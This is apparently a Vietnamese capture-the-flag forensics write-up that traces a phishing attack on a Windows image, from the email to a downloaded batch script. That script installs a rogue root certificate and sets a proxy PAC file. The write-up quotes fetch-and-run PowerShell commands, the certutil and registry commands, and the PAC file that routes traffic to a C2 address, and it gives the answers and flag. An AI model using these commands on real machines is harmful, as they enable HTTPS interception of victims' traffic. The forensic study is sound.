










# ZeroTrace

## Summary

Challenge cung cấp một Windows disk image dạng `challenge.E01` và một service hỏi đáp forensic. Service có banner `VIETPQVIETPQ`, các câu hỏi yêu cầu dựng lại chuỗi tấn công trên máy của VietPQ: PhucDD gửi email phishing, dụ nạn nhân chạy command, cài certificate, cấu hình proxy/PAC và điều hướng traffic qua C2.

Điểm quan trọng của bài là không được nhảy thẳng tới đáp án. Ta cần đi theo timeline hợp lý từ artefact người dùng: email client → PowerShell history → script đã tải → registry network settings → PAC file → certificate.


## Investigation

### Step 1: Triage image và chọn đúng user profile

Mở `challenge.E01` bằng FTK Imager. Image có nhiều partition, nên bước đầu tiên là xác định phân vùng Windows chính. Partition lớn nhất thường chứa hệ điều hành và dữ liệu người dùng; trong ảnh này đó là:

```text
Partition 2 [30149MB]
└── NONAME [NTFS]
    └── [root]
```

Vì câu hỏi xoay quanh “máy của VietPQ”, ta kiểm tra thư mục `Users` để tìm profile tương ứng. Đây là điểm bắt đầu hợp lý vì các artefact như mail client, PowerShell history và `HKCU` registry đều nằm trong profile của user.



### Step 2: Tìm email phishing để trả lời Q1

> Q1. PhucDD đã sử dụng địa chỉ email nào để lừa VietPQ?

Q1 hỏi PhucDD đã sử dụng email nào để lừa VietPQ. Vì câu hỏi liên quan trực tiếp đến hành vi lừa đảo qua email, artefact cần ưu tiên kiểm tra là dữ liệu của mail client trong profile của nạn nhân. Mục tiêu là tìm các thư đã nhận, địa chỉ người gửi, nội dung trao đổi và các header liên quan.

Trong profile vietpq, ta thấy có thư mục dữ liệu của Mozilla Thunderbird. Đây là một ứng dụng email client, có khả năng lưu cục bộ các email, thông tin tài khoản, mailbox và metadata của thư. Vì vậy, Thunderbird là nguồn artefact phù hợp để xác định email mà PhucDD đã dùng để liên hệ hoặc lừa VietPQ.

```text
[root]\Users\vietpq\AppData\Roaming\Thunderbird
```



Thunderbird lưu mail local trong profile. File Inbox nằm tại:

```text
[root]\Users\vietpq\AppData\Roaming\Thunderbird\Profiles\9oikknrp.default-release\Mail\Local Folders\Inbox
```

Khi mở `Inbox`, có một email rất khớp bối cảnh social engineering:

```text
Subject: Bypass ISP restriction for phim36/2hd.xx
```

Ở ảnh dưới, FTK Imager đang preview trực tiếp file `Inbox`. Phần cần chú ý là raw header của email: dòng `Return-Path` được highlight cho thấy địa chỉ envelope sender của thư.



```text
Return-Path: <phucddh4ck3rvjpr0123@gmail.com>
```

Ngoài ra trong phần header cũng có các dòng xác thực như `spf=pass ... smtp.mailfrom=phucddh4ck3rvjpr0123@gmail.com`, củng cố rằng email này được gửi từ địa chỉ trên. Vì Q1 hỏi email PhucDD dùng để lừa VietPQ, ta lấy địa chỉ ở `Return-Path` / `smtp.mailfrom` làm đáp án. Các trường như `To` hoặc `Delivered-To` là email của nạn nhân nên không phải đáp án.

Đáp án Q1:

```text
phucddh4ck3rvjpr0123@gmail.com
```

### Step 3: Pivot sang PowerShell history để tìm URL mã độc Q2

> Q2. URL chứa đoạn mã độc được thực thi trên máy của VietPQ?

Trong email, phần command không lộ URL đầy đủ. Mail chỉ còn dạng:



Fake flag và dấu chấm cho thấy không thể lấy URL trực tiếp từ email. Vì email hướng dẫn chạy PowerShell, artefact tiếp theo cần kiểm tra là lịch sử PowerShell của user.

Đường dẫn:

```text
[root]\Users\vietpq\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

Trong `ConsoleHost_history.txt`, thấy các command:

```powershell
curl -Lk https://raw.githubusercontent.com/PTIT-BunBo/CTF-writeups/refs/heads/main/sus -o setup.bat && setup.bat
curl -Lk https://raw.githubusercontent.com/PTIT-BunBo/CTF-writeups/refs/heads/main/sus -o setup.bat; setup.bat
Invoke-WebRequest -Uri "https://raw.githubusercontent.com/PTIT-BunBo/CTF-writeups/refs/heads/main/sus" -OutFile "setup.bat"; .\setup.bat
```



Các command này chứng minh URL `.../main/sus` đã được tải về thành `setup.bat` và được thực thi. Do đó đây là URL chứa đoạn mã độc được chạy trên máy VietPQ.

Đáp án Q2:

```text
https://raw.githubusercontent.com/PTIT-BunBo/CTF-writeups/refs/heads/main/sus
```

### Step 4: Phân tích `setup.bat` để hiểu attacker đã thay đổi gì

Sau khi biết URL được tải về thành `setup.bat`, bước kế tiếp là tìm file này trong profile. File còn tồn tại tại:

```text
[root]\Users\vietpq\setup.bat
```



Nội dung:

```bat
curl -Lk -o temp.cer "https://raw.githubusercontent.com/PTIT-BunBo/CTF-writeups/refs/heads/main/certi.cer" && certutil -user -addstore root temp.cer && del temp.cer && reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Internet Settings" /v AutoConfigURL /t REG_SZ /d "https://raw.githubusercontent.com/PTIT-BunBo/CTF-writeups/refs/heads/main/proxy.pac" /f
```

Từ script này, ta hiểu mục tiêu của attacker:

- `certutil -user -addstore root temp.cer`: cài root certificate vào store của user để hỗ trợ HTTPS MITM.
- `reg add ... AutoConfigURL`: cấu hình Windows tự tải PAC file để điều hướng traffic qua proxy.

Điều này giải thích vì sao các câu sau hỏi về PAC, C2 và certificate.

Đến đây `setup.bat` mới chỉ cho ta biết attacker có ý định cấu hình PAC. Tiếp theo, cần kiểm tra nơi Windows thật sự lưu cấu hình proxy của user, tức registry `HKCU\Software\Microsoft\Windows\CurrentVersion\Internet Settings`.

### Step 5: Kiểm chứng PAC URL thực tế trong `NTUSER.DAT`

> Q3. Cài đặt mạng của VietPQ đã bị thay đổi để chuyển hướng traffic sang C2 của PhucDD. PhucDD đã cấu hình hệ thống tự động tải một kịch bản điều hướng mạng. Hãy tìm URL của file cấu hình ấy?

Q3 hỏi cài đặt mạng đã bị thay đổi và hệ thống tự động tải một kịch bản điều hướng mạng. Trên Windows, PAC auto-config của user nằm trong registry:

```text
HKCU\Software\Microsoft\Windows\CurrentVersion\Internet Settings
```

Vì là `HKCU`, hive tương ứng nằm ở:

```text
[root]\Users\vietpq\NTUSER.DAT
```



Export `NTUSER.DAT` bằng FTK Imager, mở bằng Registry Explorer và đi tới:

```text
Software\Microsoft\Windows\CurrentVersion\Internet Settings
```

Value tìm được:

```text
AutoConfigURL = https://raw.githubusercontent.com/lalalaf0r3n51c5/s0m3th1n9/refs/heads/main/proxy.pac
```

Giá trị này khác URL `proxy.pac` trong `setup.bat`. Vì registry là cấu hình đang được Windows dùng, đây mới là đáp án đúng cho Q3.



Đáp án Q3:

```text
https://raw.githubusercontent.com/lalalaf0r3n51c5/s0m3th1n9/refs/heads/main/proxy.pac
```

### Step 6: Đọc PAC file để xác định C2 Q4

> Q4. Base64 địa chỉ C2 (IP:Port) do PhucDD nắm quyền kiểm soát?

PAC file là JavaScript quyết định traffic đi trực tiếp hay qua proxy. Vì Q4 hỏi C2 dạng `IP:Port`, ta cần đọc nội dung `proxy.pac`.

Nội dung PAC:

```javascript
function FindProxyForURL(url, host) {
    if (isPlainHostName(host) || 
        shExpMatch(host, "*.local") || 
        isInNet(dnsResolve(host), "127.0.0.0", "255.0.0.0") ||
        isInNet(dnsResolve(host), "192.168.0.0", "255.255.0.0") ||
        isInNet(dnsResolve(host), "10.0.0.0", "255.0.0.0")) {
        return "DIRECT";
    }

    return "PROXY 27.79.121.179:1336; DIRECT";
}
```

Logic này bỏ qua proxy với local/private network, còn traffic khác sẽ thử đi qua:

```text
27.79.121.179:1336
```

Đây là C2/proxy do PhucDD kiểm soát. Q4 yêu cầu Base64 của chuỗi `IP:Port`, nên encode đúng chuỗi ASCII:


```

Đáp án Q4:

```text
MjcuNzkuMTIxLjE3OToxMzM2
```

### Step 7: Xác định certificate giúp đọc HTTPS Q5

> Q5. File nào giúp PhucDD đọc được traffic HTTPS? Hãy tìm mã băm SHA-1 của file đó?

Q5 hỏi “File nào giúp PhucDD đọc được traffic HTTPS?”. Với HTTPS MITM, chỉ cấu hình proxy là chưa đủ. Nếu muốn đọc HTTPS mà trình duyệt không cảnh báo, attacker phải làm máy nạn nhân tin tưởng root certificate của mình.

Quay lại `setup.bat`, dòng liên quan là:

```bat
curl -Lk -o temp.cer "https://raw.githubusercontent.com/PTIT-BunBo/CTF-writeups/refs/heads/main/certi.cer" && certutil -user -addstore root temp.cer
```

Lệnh này tải certificate về `temp.cer`, import vào user root store rồi xóa file tạm. Dù `temp.cer` bị xóa, URL gốc của certificate vẫn nằm trong script:

```text
https://raw.githubusercontent.com/PTIT-BunBo/CTF-writeups/refs/heads/main/certi.cer
```

Tải lại certificate và tính SHA-1 của file:

```powershell
Invoke-WebRequest -UseBasicParsing `
  -Uri "https://raw.githubusercontent.com/PTIT-BunBo/CTF-writeups/refs/heads/main/certi.cer" `
  -OutFile certi.cer

Get-FileHash -Algorithm SHA1 .\certi.cer
```

Kết quả:

```text
9c1abd314ca118790d25c32cb4e7e450919b8528
```

Lưu ý dễ nhầm: `certutil -dump certi.cer` có thể hiện certificate thumbprint khác. Nhưng service yêu cầu SHA-1 của file `.cer`, nên đáp án đúng là hash file raw.

Đáp án Q5:

```text
9c1abd314ca118790d25c32cb4e7e450919b8528
```

## Submit

Kết nối service:

```bash
nc 144.79.188.39 46799
```

Submit lần lượt:

```text
Q1: phucddh4ck3rvjpr0123@gmail.com
Q2: https://raw.githubusercontent.com/PTIT-BunBo/CTF-writeups/refs/heads/main/sus
Q3: https://raw.githubusercontent.com/lalalaf0r3n51c5/s0m3th1n9/refs/heads/main/proxy.pac
Q4: MjcuNzkuMTIxLjE3OToxMzM2
Q5: 9c1abd314ca118790d25c32cb4e7e450919b8528
```



## Flag

```text
PTITCTF{w0w_y0u_h3lp3d_vietpq_b3c0m3_4_pr0_thr34t_1nt3ll1g3nc3_fcdf88079ef3}
```
